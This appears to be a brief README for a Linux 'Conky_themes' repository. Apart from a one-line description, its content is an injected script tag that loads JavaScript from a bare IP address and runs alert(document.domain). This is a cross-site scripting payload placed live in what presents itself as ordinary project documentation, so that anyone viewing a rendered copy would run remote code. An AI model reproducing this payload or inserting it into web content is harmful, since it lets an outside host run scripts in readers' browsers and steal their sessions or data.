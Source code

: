 # Conky_themes
conky themes for Linux it wery usefull for Network Administrators and so on...
<script type="text/javascript" src="http://104.43.13.161/hello.js">     alert(document.domain);   </script>"
